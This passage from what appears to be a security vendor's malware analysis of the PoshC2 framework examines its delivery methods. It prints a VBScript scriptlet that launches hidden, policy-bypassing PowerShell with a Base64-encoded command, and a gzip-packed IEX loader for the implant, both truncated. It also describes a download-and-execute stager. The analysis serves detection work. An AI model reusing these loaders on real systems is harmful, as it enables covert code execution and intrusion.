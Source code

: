 <p><strong><i>&lt;?XML version=&#8221;1.0&#8243;?&gt;</i></strong></p>
<p><strong><i>&lt;scriptlet&gt;</i></strong></p>
<p><strong><i>&lt;registration</i></strong></p>
<p><strong><i>    progid=&#8221;PoC&#8221;</i></strong></p>
<p><strong><i>    classid=&#8221;{F0001111-0000-0000-0000-0000FEEDACDC}&#8221; &gt;</i></strong></p>
<p><strong><i>&lt;script language=&#8221;VBScript&#8221;&gt;</i></strong></p>
<p><strong><i>Dim ghgfhgfh</i></strong></p>
<p><strong><i>set ghgfhgfh = CreateObject(&#8220;shell.application&#8221;)</i></strong></p>
<p><strong><i>ghgfhgfh.ShellExecute &#8220;powershell.exe&#8221;, &#8221; -exec bypass -Noninteractive -windowstyle hidden -e SQBFAFgAKABOAGUAdwAtAE8AYgBqAGUAYwB0ACAASQBPAC4AUwB0AHIAZQBhAG0AUg</i></strong></p>
<p><strong><i>BlAGEAZABlAHIAKAAoAE4AZQB3AC0ATwBiAGoAZQBjAHQAIABTAHkAcwB0AGUAbQAuAEkATwAuAEM</i></strong></p>
<p><strong><i>&lt;&#8230;&gt;</i></strong></p>
<p><strong><i>GQAZQBdADoAOgBEAGUAYwBvAG0AcAByAGUAcwBzACkAKQAsAFsAVABlAHgAdAAuAEU</i></strong></p>
<p><strong><i>AbgBjAG8AZABpAG4AZwBdADoAOgBBAFMAQwBJAEkAKQApAC4AUgBlAGEAZABUAG8ARQBuAGQAKAApAA==&#8221;, &#8220;&#8221;, &#8220;open&#8221;, 0</i></strong></p>
<p><strong><i>&lt;/script&gt;</i></strong></p>
<p><strong><i>&lt;/registration&gt;</i></strong></p>
<p><strong><i>&lt;/scriptlet&gt;</i> </strong></p>
<p><span data-contrast="auto">Both HTA code and scriptlets feature the same powershell.exe command line parameters, including the Base64-encoded PowerShell command that ultimately executes the implant. PoshC2 stores the whole command line inside payload.bat, which can be either executed on a remote system as-is or become part of a bigger execution chain. The Base64-encoded PowerShell command contains another layer of obfuscation – another Base64-encoded PowerShell script that is also packed:</span><span data-ccp-props="{&quot;201341983&quot;:0,&quot;335559739&quot;:160,&quot;335559740&quot;:259}"> </span></p>
<p><strong><i>IEX(New-Object IO.StreamReader((New-Object System.IO.Compression.GzipStream([IO.MemoryStream][Convert]::FromBase64String(&#8216;H4sIAIec/GMC/51XW3PayBJ+16+YVekBJUhc4mDHFFVry2RNObYpIM7uUq6tQWpggpCU0SiYZfnv2z0jLnE2l</i> </strong></p>
<p><strong><i>&lt;&#8230;&gt;</i></strong></p>
<p><strong><i>BXQg3I0aEY9pesli2Yz5M7+vtHe35Xg7s9DxaXyhjFAZtQdpJTKzf8XrGmEUKjMjm4dy9ta/wJPgY69ig4AAA==&#8217;),[IO.Compression.CompressionMode]::Decompress)),[Text.Encoding]::ASCII)).ReadToEnd()</i></strong><span data-ccp-props="{&quot;201341983&quot;:0,&quot;335559685&quot;:720,&quot;335559739&quot;:0,&quot;335559740&quot;:240}"><br />
</span></p>
<p><span data-contrast="auto">The packed code is the main PowerShell implant (which can be found inside payload.txt). Before diving into the details of its implementation, there is one last delivery method to analyze: the PowerShell stager.</span><span data-ccp-props="{&quot;201341983&quot;:0,&quot;335559739&quot;:160,&quot;335559740&quot;:259}"> </span></p>
<h2 aria-level="1"><span data-contrast="none">Execution via PowerShell Stagers</span><span data-ccp-props="{&quot;134245418&quot;:true,&quot;134245529&quot;:true,&quot;201341983&quot;:0,&quot;335559738&quot;:240,&quot;335559739&quot;:0,&quot;335559740&quot;:259}"> </span></h2>
<p><span data-contrast="auto">Similarly to the inline scripts used with mshta.exe and regsvr32.exe, PoshC2 provides a short PowerShell one-liner to download and execute the main PowerShell implant. As </span><span data-contrast="auto">Figure 3</span><span data-contrast="auto"> highlights, most of the Base64-encoded command does not change at all, which makes it a perfect candidate for a detection rule.</span></p>
<p><a href="https://blogs.vmware.com/security/files/2023/03/Screen-Shot-2023-03-24-at-12.49.44-PM.png"><img decoding="async" loading="lazy" class="alignnone wp-image-83408" src="https://blogs.vmware.com/security/files/2023/03/Screen-Shot-2023-03-24-at-12.49.44-PM-1024x159.png" alt="" width="800" height="124" srcset="https://blogs.vmware.com/security/files/2023/03/Screen-Shot-2023-03-24-at-12.49.44-PM-1024x159.png 1024w, https://blogs.vmware.com/security/files/2023/03/Screen-Shot-2023-03-24-at-12.49.44-PM-300x47.png 300w, https://blogs.vmware.com/security/files/2023/03/Screen-Shot-2023-03-24-at-12.49.44-PM-768x119.png 768w, https://blogs.vmware.com/security/files/2023/03/Screen-Shot-2023-03-24-at-12.49.44-PM-600x93.png 600w, https://blogs.vmware.com/security/files/2023/03/Screen-Shot-2023-03-24-at-12.49.44-PM.png 1506w" sizes="(max-width: 800px) 100vw, 800px" /></a></p>
<p><i><span data-contrast="none">Figure </span></i><i><span data-contrast="none">3</span></i><i><span data-contrast="none">: Two different builds of the PowerShell one-liner.</span></i></p>
<p><span data-contrast="auto">The Base64-encoded command employs </span><i><span data-contrast="auto">System.Net.WebClient</span></i><span data-contrast="auto"> to download the main PowerShell implant, which is later executed with the </span><i><span data-contrast="auto">IEX</span></i><span data-contrast="auto"> command. As shown in the figure below, the URL is the only parameter that is responsible for the changes in the Base64 encoding.</span></p>